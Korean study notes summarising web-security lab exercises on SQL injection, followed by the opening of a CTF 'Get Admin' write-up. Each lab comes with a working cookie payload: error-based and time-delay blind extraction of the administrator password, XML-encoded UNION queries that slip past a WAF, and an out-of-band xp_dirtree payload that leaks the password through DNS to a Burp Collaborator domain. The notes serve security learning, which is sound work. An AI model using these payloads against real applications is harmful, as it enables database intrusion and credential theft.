   * Lab: 블라인드 SQLi – 조건부 오류 – 쿠키를 이용한 SQLi이며, 쿼리가 오류를 발생시키면 애플리케이션이 오류 메시지를 반환합니다. 예를 들어 Oracle의 CASE WHEN을 사용하여 조건이 참일 때 1/0 오류를 유도할 수 있습니다. 예시:처럼 보내면 > 비교가 참일 때(즉 첫 글자가 m 초과일 때) 오류가 발생해 응답이 달라집니다. 이를 통해 비밀번호 문자를 하나씩 알아냅니다. 교훈: 오류 발생 유무를 통해 블라인드 상태에서도 정보를 추론할 수 있음을 보여줍니다. 

Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)>'m') THEN 1/0 ELSE 1 END) = 1 

  * Lab: 가시적 오류 기반 SQLi – 쿠키에 삽입한 값으로 인해 발생한 오류 메시지가 자세히 출력됩니다. 예를 들어 작은따옴표(')만 입력하면 쿼리 구조 전체가 에러 메시지에 노출됩니다. 실습 중 특정 조건(예: 반환 행이 둘 이상일 때)을 유도하여 PostgreSQL 등의 오류 메시지가 응답에 나타나게 하면, 메시지에서 users 테이블의 administrator 항목이 출력되기도 합니다. 예:같은 메시지로 관리자 이름이 노출됩니다. 교훈: 자세한 오류 메시지는 민감 정보를 노출하므로, 운영 환경에선 오류 메시지를 숨기거나 최소화해야 합니다. 

ERROR: invalid input syntax for type integer: "administrator" 

  * Lab: 블라인드 SQLi – 시간 지연 – 쿠키 기반 SQLi로, 조건이 참일 때 쿼리 실행을 지연시켜 정보를 얻습니다. 실습 목표는 10초 지연을 일으키는 것인데, 예를 들어 MSSQL의 WAITFOR DELAY를 사용합니다:이 경우 조건이 참이므로 서버 응답이 10초 지연되어 나타납니다. 교훈: 응답 지연을 관측하여 블라인드 환경에서도 정보를 추론할 수 있습니다. 

Cookie: TrackingId=xyz'; IF (1=1) WAITFOR DELAY '0:0:10'-- 

  * Lab: 블라인드 SQLi – 시간 지연+정보 조회 – 앞 실습과 유사하지만, 조건문에 데이터를 결합하여 지연과 정보 추출을 동시에 수행합니다. 예를 들어 비밀번호 첫 글자를 비교해 5초 지연을 발생시키는 방식입니다. 예:처럼 조건부로 지연을 걸어가며 문자를 하나씩 알아냅니다. 교훈: 시간 지연 SQLi로도 블라인드 상태에서 문자 단위 데이터 추출이 가능함을 실습합니다. 

Cookie: TrackingId=xyz' IF (ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1))=`ASCII('a')`) WAITFOR DELAY '0:0:05'-- 

  * Lab: OOB SQLi – 상호작용 – 쿠키 기반 SQLi이며, 데이터베이스 서버가 외부 도메인으로 요청을 보냅니다. 예를 들어 MSSQL의 xp_dirtree를 이용해 임의 도메인 조회를 유도할 수 있습니다:이때 Burp Collaborator에서 abcd1234.burpcollab.net으로 들어오는 DNS 쿼리를 관찰하여, SQLi 취약점을 확인합니다. 교훈: OOB 채널(예: DNS)을 활용하여 애플리케이션 응답 없이도 외부에서 상호작용을 확인할 수 있습니다. 

Cookie: TrackingId=xyz'; EXEC master..xp_dirtree '//abcd1234.burpcollab.net/a'-- 

  * Lab: OOB SQLi – 데이터 탈취 – 앞 실습으로 OOB 가능성을 확인했으면, 실제로 데이터를 추출합니다. 예를 들어 관리자 암호를 DNS로 내보내는 페이로드를 사용합니다:이 입력은 관리자 암호가 포함된 도메인으로 DNS 조회를 발생시켜(예: S3curePass.4321.burpcollab.net), 암호를 직접 탈취합니다. 교훈: OOB 채널을 통한 데이터 직접 유출은 높은 성공률을 보이며, 민감 데이터까지 외부로 추출할 수 있음을 보여줍니다. 

Cookie: TrackingId=xyz'; DECLARE @p VARCHAR(1024); SET @p=(SELECT password FROM users WHERE username='Administrator'); EXEC('master..xp_dirtree "//'+@p+'.4321.burpcollab.net/a"')-- 

  * Lab: 필터 회피 – XML 인코딩 – 재고 조회 기능에 SQLi가 있습니다. 결과는 페이지에 표시되므로 UNION 공격이 가능합니다. 그러나 WAF가 기본적인 SQLi 패턴(', UNION 등)을 차단하므로 이를 우회해야 합니다. 예를 들어 작은따옴표(')를 XML 인코딩 &apos; 또는 &#39;로 바꾸면 필터를 우회할 수 있습니다. UNION 공격 예:이렇게 인코딩된 입력을 보내면 WAF를 통과해 관리자 계정이 노출되고 로그인할 수 있습니다. 교훈: 입력값 인코딩/난독화를 통해 필터 우회가 가능함을 확인하며, WAF도 완전하지 않음을 학습합니다 

item=101&amp;stock=1&amp;id=1&amp;info=1024&#39; UNION SELECT username,password FROM users-- 




**CTF문제 풀이**

![](./img/109_img.png)

**Get Admin**

![](./img/109_img_1.png) ![](./img/109_img_2.png)

여기서 쿠키값이 doldol로 설정되어있으니까 이 쿠키값을 바꾼다는 생각을 하자
